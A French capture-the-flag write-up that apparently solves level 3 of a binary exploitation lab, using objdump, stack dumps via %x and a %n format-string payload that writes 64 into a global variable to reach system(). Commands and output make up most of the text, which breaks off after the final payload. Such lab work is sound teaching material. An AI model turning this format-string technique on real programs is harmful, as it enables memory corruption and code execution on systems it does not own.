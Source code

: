# Level 3

![Ghidra level3, fonction main et v](./ghidra-level3.png)

Nous avons une variable globale qui est `m`, cette variable est par défaut sur 0. L'objectif est de la modifier pour appeler le `system()`.

Nous pourrons le modifier grace à `printf` et avec la faille, pour cela nous avons besoin de l'adresse de `m`. nous utiliserons objdump et afficherons le symbol table.

```
$ objdump -t level3

level3:     file format elf32-i386

SYMBOL TABLE:
080484a4 g     F .text	00000076              v
0804983c g       .data	00000000              __data_start
00000000       F *UND*	00000000              system@@GLIBC_2.0
080483f0 g     F .text	00000000              _start
080485f8 g     O .rodata	00000004              _fp_hw
0804988c g     O .bss	00000004              m
08049880 g     O .bss	00000004              stdout@@GLIBC_2.0
```
Nous pourrons lancer le programme avec notre propre `format string` et afficher la mémoire de la stack. En commençant par trouver l'adresse / offset du paramètre.
```
$ echo "BBBB %x %x %x %x %x %x" | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825
```
Notre buffer "BBBB" est stocké en 4ème position dans la stack (B=42 "42424242")

Maintenant, nous devons changer cette adresse à l'adresse de la variable `m` ("0x804988c"), pour la changer après
```
$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
```
OK bien. Nous allons maintenant utiliser le modificateur "%n" au lieu de "%x"

"%n" écrit dans l'adresse le nombre d'octets avant

Si nous faisons cela
```
$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %n'" | ./level3
```
Le nombre sera 4. Parce que notre buffer "\x8c\x98\x04\x08" est de 4 octets

On peut l'écrire comme ça pour mieux voir
```
$ python -c "print '\x8c\x98\x04\x08'+'%4$n'" | ./level3
```
Ce qui passe directement à la 4ème position et on n'est plus obligé de mettre les 3 autres "%x"

Maintenant, nous devons écrire 64 dans "m" pour passer la condition. Alors on ajoute juste 60 octets de plus
```
$ python -c 'print "\x8c\x98\x04\x08" + "B" * 60 + "%4$n"' | ./level3
�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Wait what?!
```
